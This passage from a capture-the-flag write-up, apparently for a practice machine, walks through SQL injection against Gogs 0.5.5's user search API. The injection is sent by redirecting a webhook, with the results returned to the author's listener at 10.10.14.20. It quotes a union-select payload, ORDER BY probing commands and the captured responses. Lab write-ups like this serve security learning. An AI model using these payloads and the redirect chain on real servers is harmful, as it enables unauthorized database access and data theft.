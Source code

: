 ```bash
[... snip ...]
id=\"footer-rights\">\u00a9 2014 GoGits \u00b7 Version: 0.5.5.1010 Beta
```


### Step 2
Reading about gogs version 0.5.5.1010 it's vulnerable to [SQL Injection through the search](https://www.exploit-db.com/exploits/35238). 

The PoC code isn't working right of the bat, we're returned `"health":"down"` indicating that the SQL syntax is broken somewhere.
```
http://www.example.com/api/v1/users/search?q='/**/and/**/false)/**/union/**/
select/**/null,null,@@version,null,null,null,null,null,null,null,null,null,null,
null,null,null,null,null,null,null,null,null,null,null,null,null,null/**/from
/**/mysql.db/**/where/**/('%25'%3D'
```

Playing around and trying to simplify I get simple `ORDER BY` to give some response:
```bash
➜  health python3 redirect.py 80 "http://127.0.0.1:3000/api/v1/users/search?q=')/**/order/**/by/**/27--/**/-"
10.129.9.180 - - [23/Aug/2022 16:10:00] "GET / HTTP/1.0" 302 -

➜  health python3 webserv.py 8888
INFO:root:POST request,
Path: /
Headers:
Host: 10.10.14.20:8888
Accept: */*
Content-type: application/json
Content-Length: 575



Body:
{"webhookUrl":"http:\/\/10.10.14.20:8888\/","monitoredUrl":"http:\/\/10.10.14.20\/","health":"up","body":"{\"data\":[{\"username\":\"susanne\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/c11d48f16f254e918744183ef7b89fce\"}],\"ok\":true}","message":"HTTP\/1.0 302 Found","headers":{"Server":"BaseHTTP\/0.6 Python\/3.10.5","Date":"Tue, 23 Aug 2022 14:08:01 GMT","Location":"http:\/\/127.0.0.1:3000\/api\/v1\/users\/search?q=')\/**\/order\/**\/by\/**\/20--\/**\/-","Content-Type":"application\/json; charset=UTF-8","Set-Cookie":"_csrf=; Path=\/; Max-Age=0","Content-Length":"111"}}

10.129.9.180 - - [23/Aug/2022 16:08:00] "POST / HTTP/1.1" 200 -
```

**NOTE:** `{\"data\":[{\"username\":\"susanne\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/c11d48f16f254e918744183ef7b89fce\"}` is the exfiltrated data. Normally it just returns `{\"data\":[]\}`.

But trying with 28 columns breaks the syntax. 

Next we need to find a injectable column, and trying the normal `@@version` doesn't give any result. As hinted from the poc, column 3 should be injectable so after playing around with some commands I able to extract the username (which I already knew) - thus proving that column 3 is correct and we should focus more here.
